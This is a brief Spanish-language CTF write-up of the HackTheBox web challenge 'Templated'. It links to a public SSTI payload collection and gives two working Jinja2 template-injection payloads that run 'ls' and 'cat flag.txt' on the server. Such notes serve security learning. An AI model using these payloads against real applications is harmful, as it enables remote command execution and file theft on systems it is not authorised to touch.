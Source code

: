 # Notas sobre desafíos en HackTheBox
  
## Challenges - Web  
https://app.hackthebox.eu/challenges/  

### Templated  

- Template jinja2 utilizado para explotar vulnerabilidad y ver flag  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  

Se usó en la url:  
`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`  
y luego   
`{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}`  

